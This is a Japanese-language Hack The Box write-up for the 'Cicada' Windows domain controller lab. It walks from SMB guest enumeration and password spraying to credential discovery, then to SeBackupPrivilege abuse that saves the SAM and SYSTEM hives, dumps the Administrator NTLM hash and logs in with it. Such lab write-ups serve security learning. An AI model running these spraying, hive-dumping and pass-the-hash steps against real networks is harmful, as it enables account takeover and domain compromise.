# HTB Cicada Writeup



# Enumeration

## Nmap

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ nmap -sV -sC -p- --min-rate 10000 10.10.11.35 -oN Nmap.scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-07 10:52 JST
Nmap scan report for 10.10.11.35
Host is up (0.093s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-07 08:36:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
55636/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h43m20s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-07T08:37:10
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.29 seconds
```

ポートスキャンの結果から、ドメインを見つけたのでhostsファイルに追加します。

```
10.10.11.35	cicada.htb CICADA-DC.cicada.htb
```

## SMB

netexecでドメインユーザーの列挙から行います。

現時点では認証情報をひとつも所持していないので空のユーザー名と空のパスワードを渡してみると認証に成功しました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u '' -p ''                  
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\: 
```

認証に成功したのでSMB共有を列挙できないか試しましたが、失敗しました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u '' -p '' --shares   
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\: 
SMB         10.10.11.35     445    CICADA-DC        [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

続いて `guest` ユーザーとして空のパスワードで試しました。

```
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u 'guest' -p ''    
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest: 
```

SMB共有の列挙を試してみます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u 'guest' -p '' --shares                      
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share 
```

guestユーザーとしてSMB共有の列挙ができたのでドメインユーザーの列挙も行えそうです。

ridのブルートフォースで行ったところ列挙に成功しました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u 'guest' -p '' --rid-brute | grep SidTypeUser
SMB                      10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

ユーザ名をusers.txtに保存しておきます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ cat users.txt 
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

共有フォルダのHRに読み取り権限があるのでアクセスしてみると、テキストファイルがあったのでダウンロードして中身を調べてみます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ smbclient -U guest \\\\10.10.11.35\\HR
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 21:29:09 2024
  ..                                  D        0  Thu Mar 14 21:21:29 2024
  Notice from HR.txt                  A     1266  Thu Aug 29 02:31:48 2024

		4168447 blocks of size 4096. 438705 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (2.0 KiloBytes/sec) (average 2.0 KiloBytes/sec)
```

中身にはデフォルトのパスワードがありました。



パスワードを取得したのでデフォルトのパスワードを使っているユーザーがいないかパスワードスプレーを行いました。

`michael.wrightson` がデフォルトのパスワードを使っていることが分かりました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
```

## BloodHound

michael.wrightsonとして認証を行えるので `bloodhound-python` で列挙を行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ bloodhound-python -d cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -dc CICADA-DC.cicada.htb -ns 10.10.11.35 --zip -c All
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: cicada.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: CICADA-DC.cicada.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: CICADA-DC.cicada.htb
INFO: Found 9 users
INFO: Found 54 groups
INFO: Found 3 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: CICADA-DC.cicada.htb
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
INFO: Done in 00M 31S
INFO: Compressing output into 20250207183307_bloodhound.zip
```

生成された `20250207183307_bloodhound.zip` をBloodHoundに読み込ませる。



BloodHoundの高特権ユーザーを検索する機能を使うとAdministratorのほかに `emily.oscars` を見つけました



emilyは `Backup Operators`, `Remote Management Users` に属していました。

emilyの認証情報さえあればwinrmでログインできます。



emilyのパスワードを求めて、列挙を行っていると `david.orelious` の説明欄にパスワードを見つけました

`aRt$Lp#7t*VQ!3`



`david.orelious` としてSMB共有を列挙すると、`DEV` に読み取り権限がついていました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
```

DEVにアクセスすると中に、`Backup_script.ps1` というパワーシェルスクリプトを見つけました。ダウンロードして中身を調べます。



`emily.oscars` のパスワード `Q!3@Lp#M6b*7t*Vt` を見つけました。



# User.txt

取得したパスワードをつかって、winrmでログインできることを確認しました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec winrm CICADA-DC.cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```

evil-winrmでログインします。

```
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ evil-winrm -i CICADA-DC.cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
```

user.txtを取得しました。



# Privilege Escaration

`emily.oscars`は `Backup Operators` に所属していることが分かっているので、`SeBackupPrivilege`, `SeRestorePrivilege` この２つの権限をもっていると思われます。

`whoami /priv` で確認できます。

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

## SeBackupPrivilege の悪用

SeBackupPrivilege は、オブジェクトのセキュリティ設定に関係なく、ユーザーまたはプロセスにファイルとディレクトリを読み取る権限を持ちます。この権限は、通常ユーザーがアクセスできないファイルをバックアップまたはコピーする機能を必要とする特定のバックアッププログラムまたはプロセスで使用できます。主に、レジストリからローカル管理者アカウントのパスワードハッシュを読み取るために使用され、その後、ハッシュを使用して `psexec` や `wmiexec` などのツールを使用できます。

### NTLMハッシュの取得

Windowsの認証情報は、レジストリと `ntds.dit`（Active Directoryのデータベースファイル）に保存されています。
**SeBackupPrivilege** を持つユーザーは、アクセス制御を回避してこれらの情報を取得できます。

#### レジストリからローカルアカウントのハッシュを取得

ローカルマシンのパスワードハッシュは、以下のレジストリキーに保存されています：

- `HKLM\SYSTEM` 
- `HKLM\SAM` 

これらは `impacket-secretsdump` を使ってオフライン解析が可能になります。

```bash
reg save HKLM\SYSTEM c:\tmp\system
reg save HKLM\SAM C:\tmp\sam
```



データをダウンロードします。



`impacket-secretsdump` でオフラインで解析します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

AdministratorのNTLMハッシュを取得しました。

## Root.txt

evil-winrmで取得したNTLMハッシュを使ってAdministratorとしてログインできました。



root.txtを取得しました

